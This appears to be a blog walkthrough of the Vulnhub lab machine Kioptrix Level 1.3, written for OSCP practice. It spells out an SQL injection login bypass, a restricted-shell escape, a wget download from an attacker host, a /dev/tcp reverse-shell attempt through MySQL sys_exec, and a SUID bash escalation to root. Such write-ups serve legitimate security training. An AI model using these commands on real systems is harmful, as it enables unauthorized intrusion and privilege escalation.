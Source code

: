 ```yaml
---
layout: post
title: " Kioptrix - Level 1.3"
date: 2020-08-11
ctf: true
excerpt: "Walkthrough for Kioptrix Level 1.3 on Vulnhub"
tags: [SQL injection, command execution, privilege escalation]
comments: false
---
```

[Kioptrix]( https://www.vulnhub.com/entry/kioptrix-level-13-4,25) Level 1.3 is a vulnerable machine found on the [NetSecFocus Trophy Room](https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=0) list which I have been using as preparation for the OSCP. Below is a walkthrough to compromise this machine.

First, after downloading and importing the machine into VMware, I had to figure out the IP address of the machine. I used **netdiscover -i eth0** until I came across the IP of this machine.

![Kioptrix Level 1.3 netdiscover](/assets/img/KioptrixLevel41.png)

Let's run **threader3000** to enumerate the open ports on this box.

![Kioptrix Level 1.3 threader3000](/assets/img/KioptrixLevel42.png)

Let's run the suggested nmap scan and see what results we get.

![Kioptrix Level 1.3 nmap](/assets/img/KioptrixLevel43.png)

It appears that we have SSH, HTTP and SMB open. Let's connect with rpcclient by running **rpcclient -H [machine IP] -U "" ** to see if anonymous user access is allowed.

![Kioptrix Level 1.3 rpcclient anonymous](/assets/img/KioptrixLevel44.png)

Success! let's run **enumdomusers** to enumerate the users.

![Kioptrix Level 1.3 enumdomusers rpcclient](/assets/img/KioptrixLevel45.png)

I also ran **queryuser** on all the users above, but there was nothing listed in the comments that could be valuable. Next, I decided to take a look at the website.

![Kioptrix Level 1.3 website](/assets/img/KioptrixLevel46.png)

The website asks for login credentials. The two most likely methods of attack are either brute forcing credentials with something like hydra, or with SQL injection. I decided to try some basic SQL injection techniques in the password field first with the three users we uncovered (robert, john, loneferret). After some trial and error, I uncovered that utilizing **' OR 1 =1 -- -** in the password field worked and bypassed authentication for john and robert.

![Kioptrix Level 1.3 john credentials](/assets/img/KioptrixLevel47.png)

![Kioptrix Level 1.3 robert credentials](/assets/img/KioptrixLevel48.png)

We now had a username and password for **john** and **robert**. I tried to ssh as both of them and was able to get in (even though robert's looks like a base64 encoded password, it is not and works as shown above). For both john and robert, they login with a restricted shell as shown below. Running help shows a minimal amount of commands that can be run from this restricted shell.

![Kioptrix Level 1.3 john restricted shell](/assets/img/KioptrixLevel49.png)

Fortunately, we can use echo to our advantage and break out of the shell with **echo os.system('/bin/bash')**.

![Kioptrix Level 1.3 break out of restricted shell](/assets/img/KioptrixLevel410.png)

Success! We have broken out of the restricted shell. I ran **sudo -l** and neither john or robert could run sudo.

![Kioptrix Level 1.3 john sudo -l](/assets/img/KioptrixLevel411.png)

![Kioptrix Level 1.3 robert sudo -l](/assets/img/KioptrixLevel412.png)

Let's do some enumeration and see what we can find, first let's run **cd /tmp** to navigate to the tmp directory which is usually writeable by all.

![Kioptrix Level 1.3 cd /tmp](/assets/img/KioptrixLevel413.png)

Next, on my attacker pc, I hosted a python3 HTTP server from a directory where I had linpeas available.

![Kioptrix Level 1.3 python3 http server](/assets/img/KioptrixLevel414.png)

From the victim PC, run **wget http://[attacker ip]:8000/linpeas.sh** to save linpeas.sh to the /tmp directory. Next, run **chmod +x linpeas.sh** to make it executable

![Kioptrix Level 1.3 wget](/assets/img/KioptrixLevel415.png)

Next, I ran **./linpeas.sh** to enumerate the system. A couple of interesting things showed up related to mysql.

![Kioptrix Level 1.3 linpeas.sh](/assets/img/KioptrixLevel416.png)

It appears that mysql can be logged into as root without a password and you can execute system commands from it. Let's login to mysql with **mysql -U root -N**.

![Kioptrix Level 1.3 mysql root login](/assets/img/KioptrixLevel417.png)

I first ran **show databases;** and then ran **use members;** to select the members database followed by **show tables;** . Next, I ran **select * from members;** to enumerate the data in the table. This only provided us with the login credentials we already had for john and robert.

![Kioptrix Level 1.3 enumerate members database](/assets/img/KioptrixLevel418.png)

Next, I went back to what linpeas mentioned, which is that you can execute commands. The method mentioned did not work, so I did some research and came across [this article](https://recipeforroot.com/mysql-to-system-root/). It mentions **mysqludf_sys.so**, which is mentioned in the linpeas results above. Let's attempt the rest of the commands and see what happens. First, let's run **use mysql;** to select that database.

![Kioptrix Level 1.3 use mysql](/assets/img/KioptrixLevel419.png)

Next, on our attacker PC, let's run **nc -nvlp 4444**

![Kioptrix Level 1.3 nc reverse listener](/assets/img/KioptrixLevel420.png)

Next, let's **select sys_exec('bash -i >& /dev/tcp/[attacker ip]/4444 0>&1');**. Unfortunately, this did not work.

![Kioptrix Level 1.3 reverse shell failure](/assets/img/KioptrixLevel421.png)

Let's see if we can make the bash executable a SUID with **select sys_exec('chmod +s /bin/bash');**

![Kioptrix Level 1.3 chmod /bin/bash](/assets/img/KioptrixLevel422.png)

This appears to have worked, let's quit mysql and run **cd /bin** followed by **ls -al**. You will see that **bash** is now a SUID.

![Kioptrix Level 1.3](/assets/img/KioptrixLevel423.png)

Since this is an old version of bash, we can run **bash -p**, which runs it in privileged mode utilizing the SUID user, which is root.

![Kioptrix Level 1.3 root shell](/assets/img/KioptrixLevel424.png)

Next, let's navigate run **cd /root** and **ls -al** to list directory contents for the root user. There is a file named congrats.txt. Let's run **cat congrats.txt** to list the contents of this file.

![Kioptrix Level 1.3 congrats.txt](/assets/img/KioptrixLevel425.png)

And we're all set!